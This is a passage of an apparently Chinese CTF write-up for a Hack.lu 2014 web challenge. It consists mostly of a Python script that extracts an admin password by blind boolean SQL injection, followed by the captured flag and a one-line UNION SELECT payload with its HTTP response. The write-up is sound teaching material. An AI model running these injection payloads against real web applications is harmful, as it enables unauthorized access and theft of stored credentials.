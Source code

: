 ```
import requests

def binary_sqli(left, right, index):
    while 1:
        mid = (left + right)/2
        if mid == left:
            print chr(mid)
            return chr(mid)
            break
        payload = "' union select name,email from user where name = if(ascii(substr((select passwd from user where name='admin'),%s,1))<%s,'admin','root')%%23" % (str(index), str(mid))
        url = 'https://wildwildweb.fluxfingers.net:1424/?name=' + payload + '&submit=Generate'
        r = requests.get(url)
        tmp = r.text
        if len(tmp) < 480:
            right = mid
        else:
            left = mid

if __name__ == '__main__':
    ans = ''
    for i in range(1,65):
        ans += binary_sqli(35, 127, i)
    print ans

```

拿到了flag：

```
flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}

```

更优雅的一句话get flag：

```
DeAdCaT___$ http https://wildwildweb.fluxfingers.net:1424/?name=adm%27%20UNION%20select%20passwd,2%20from%20user%20where%20name=%27admin%27%20LIMIT%201,2%23&submit=Generate#
[1] 49939
DeAdCaT-2:longest-common-prefix DeAdCaT___$ HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Tue, 28 Oct 2014 08:31:24 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: nginx
Set-Cookie: PHPSESSID=qk9aod6reqkf8f2c17qhdo1dl2; path=/
Transfer-Encoding: chunked
X-Powered-By: PHP/5.5.9-1ubuntu4.4

<html><head><style type='text/css'><!-- body {background-image: url(bg.jpg);background-repeat: no-repeat;height: Percent;width: Percent; background-size: cover;}//--></style> <title>Royal Bank of Fluxembourg</title></head></html><!--
Single cows are waiting for you

_____________________
|I'm a hot single cow!| 
--------------------- 
\   ^__^  
\  (oo)\_______ 
(__)\       )\/\ 
||----w | 
```